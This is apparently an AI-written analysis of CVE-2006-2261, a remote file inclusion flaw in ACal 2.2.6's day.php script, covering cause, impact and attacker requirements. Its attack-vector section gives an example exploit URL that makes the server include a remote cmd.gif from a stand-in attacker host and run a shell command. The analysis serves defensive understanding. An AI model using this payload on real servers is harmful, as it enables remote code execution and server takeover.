 Based on the provided information, here's an analysis of CVE-2006-2261:

**Root Cause of Vulnerability:**
The vulnerability is a Remote File Inclusion (RFI) flaw. This occurs because the `day.php` script in ACal 2.2.6 improperly handles the `path` parameter, allowing an attacker to include and execute a remote file.

**Weaknesses/Vulnerabilities Present:**
- Remote File Inclusion (RFI): The primary vulnerability is the ability to include a remote file, leading to arbitrary code execution. The `day.php` script lacks proper input sanitization or validation, which allows a malicious user to inject a URL in the `path` parameter.

**Impact of Exploitation:**
- Arbitrary Code Execution: By including a malicious file from a remote server, an attacker can execute arbitrary code on the web server hosting the vulnerable ACal application. This can lead to complete compromise of the server and data.
- Data theft or manipulation: The attacker can gain unauthorized access to sensitive data on the server and may be able to modify or delete data.
- Website defacement or redirection: The attacker may be able to deface the website or redirect users to a malicious site.
- Launching further attacks: A compromised server can be used as a launching point for attacks against other systems.

**Attack Vectors:**
- HTTP GET request: The attacker sends a crafted HTTP GET request to the `day.php` script, including the malicious URL in the `path` parameter. For example:
  `http://[url]/[calendar_path]/embed/day.php?path=http://yourhost/cmd.gif?cmd=ls`

**Required Attacker Capabilities/Position:**
- Network access: The attacker must have network access to the vulnerable web server.
- Knowledge of the vulnerable script: The attacker needs to know that the `day.php` script is vulnerable and the path of the application.
- Hosting a malicious file: The attacker needs to host a malicious file on a server they control. The URL of this file is injected into the `path` parameter.
- No authentication is required to exploit this vulnerability.

**Additional Notes:**
The exploit example shows how to include a remote file named `cmd.gif`, appending the `cmd=ls` command to it. The exploit suggests the use of the `cmd` parameter to execute commands, though specific details on the behavior of the `cmd.gif` file are not included in the provided text.